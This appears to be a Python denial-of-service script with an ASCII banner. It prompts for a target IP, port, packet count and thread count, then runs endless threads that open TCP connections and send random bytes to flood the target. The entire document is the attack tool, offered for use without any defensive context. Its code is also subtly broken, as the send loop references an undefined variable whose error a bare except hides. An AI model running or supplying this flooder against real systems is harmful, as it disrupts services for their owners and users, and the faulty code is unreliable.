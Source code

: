 import socket
import threading
import random

print("""\033[95m
      _ _               _        _ 
  ___(_) | _____  _ __ | |_ ___ | |
 / __| | |/ / _ \| '_ \| __/ _ \| |
 \__ \ |   < (_) | | | | || (_) | |
 |___/_|_|\_\___/|_| |_|\__\___/|_|
                                   """)
                                  
ip_wibu = str(input("[ip] : ")) 
port_wibu = int(input("[port] : "))
paket_wibu = int(input("[paket] : "))
threads_wibu = int(input("[thread] : "))

def wibu():
	peju = random._urandom(1232)
	while True:
		try:
			s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
			s.connect((ip_wibu,port_wibu))
			s.send(peju)
			for x in range(times):
				s.send(peju)
			print("Wiifu Attack")
		except:
			s.close()
			print("Wiifu Attack")

            
for y in range(threads_wibu):
    th = threading.Thread(target = wibu)
    th.start()   

